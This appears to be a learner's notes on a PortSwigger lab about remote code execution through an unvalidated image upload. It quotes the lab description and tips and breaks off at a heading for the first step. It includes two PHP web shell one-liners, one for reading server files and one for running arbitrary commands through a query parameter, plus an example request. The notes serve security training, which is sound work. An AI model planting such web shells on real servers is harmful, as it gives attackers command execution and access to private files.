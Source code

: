 # Lab: Remote code execution via web shell upload

## Description

 This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file */home/carlos/secret*. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: *wiener:peter* 

## Tips from portswigger

### Content-type response header

The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping.

### php webshells

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 

#### Example to read a file on server

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```
 Once uploaded, sending a request for this malicious file will return the target file's contents in the response. 

#### Example to execute a command

```php
<?php echo system($_GET['command']); ?>
```
 This script enables you to pass an arbitrary system command via a query parameter as follows: 
 
 ```
GET /example/exploit.php?command=id HTTP/1.1
```

# Step 1: Map file upload functionality
